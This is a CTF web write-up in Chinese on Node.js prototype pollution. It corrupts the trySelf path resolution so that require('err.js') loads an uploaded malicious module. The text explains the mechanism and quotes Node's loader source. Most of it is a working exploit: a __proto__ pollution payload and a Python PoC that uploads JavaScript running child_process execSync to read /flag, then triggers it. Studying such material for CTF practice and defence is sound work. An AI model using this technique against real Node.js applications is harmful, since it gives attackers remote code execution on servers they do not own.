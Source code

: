 tags:: CTFWEB/JS/原型链污染

- [参考](https://blog.csdn.net/Leaf_initial/article/details/131529071#t3)
- # 思路
	- 上传恶意js模块，用原型链污染攻击`require("err.js")`，使其加载恶意JS，最终实现RCE
- # 污染require
	- 注意
		- 对应的模块必须还未被加载，否则会调用缓存内的模块而不是加载我们的恶意文件
	- 原理
		- nodejs在进行require时，其最终会使用`loader`文件中的`trySelf`函数获取最终文件路径
		- 而`trySelf`中，文件路径由这一行的变量决定：
			- ```js
			  const { data: pkg, path: pkgPath } = readPackageScope(parentPath) || {};
			  ```
		- 在本地没有`package.json`时，前面的`readPackageScope`返回`false`，此时我们可以通过后方的`{}`修改`pkg`和`pkgPath`变量，改变最终输出的文件路径
		- 最终输出的文件路径由后面的`packageExportsResolve`决定，输出的路径为我们传入的`pkgPath`目录中的`pkg`文件
			- 注意这里必须让`pkg`以`./`开头
		- trySelf的实现如下：
			- ```js
			  function trySelf(parentPath, request) {
			    if (!parentPath) return false;
			  
			    const { data: pkg, path: pkgPath } = readPackageScope(parentPath) || {};
			    if (!pkg || pkg.exports === undefined) return false;
			    if (typeof pkg.name !== 'string') return false;
			  
			    let expansion;
			    if (request === pkg.name) { // 需要绕过，让此处为true
			      expansion = '.';
			    } else if (StringPrototypeStartsWith(request, `${pkg.name}/`)) {
			      expansion = '.' + StringPrototypeSlice(request, pkg.name.length);
			    } else {
			      return false;
			    }
			  
			    try {
			      return finalizeEsmResolution(packageExportsResolve(
			        pathToFileURL(pkgPath + '/package.json'), expansion, pkg,
			        pathToFileURL(parentPath), cjsConditions), parentPath, pkgPath);
			    } catch (e) {
			      if (e.code === 'ERR_MODULE_NOT_FOUND')
			        throw createEsmNotFoundErr(request, pkgPath + '/package.json');
			      throw e;
			    }
			  }
			  ```
	- 最终的payload如下：
		- ```python
		  payload = {
		      "__proto__": {
		          "data": {
		            "name": "./err.js", # 必须和require的参数相同
		            "exports": "./" + name # 我们的目标文件，必须以./开头
		          },
		          "path": "/app/upload", # 目标文件所在的路径
		      }
		  }
		  ```
- # PoC
	- ```python
	  payload = """
	  obj={
	      getRandomErr:() => {
	          return require("child_process").execSync("cat /flag").toString();
	      }
	  }
	  console.log("恶意文件来了啵")
	  
	  module.exports = obj
	  """
	  
	  r = base_post(url + "/upload", files={"file": ("a.js", payload)})
	  print(r.text)
	  name = r.json()["url"].rpartition("/")[2]
	  print(name)
	  
	  payload = {
	      "__proto__": {
	          "data": {"name": "./err.js", "exports": "./{}".format(name)},
	          "path": "/app/upload",
	      }
	  }
	  
	  r = base_post(url + "/pollution", json=payload)
	  
	  print(r.text)
	  
	  r = base_post(url + "/upload")
	  print(r.text)
	  ```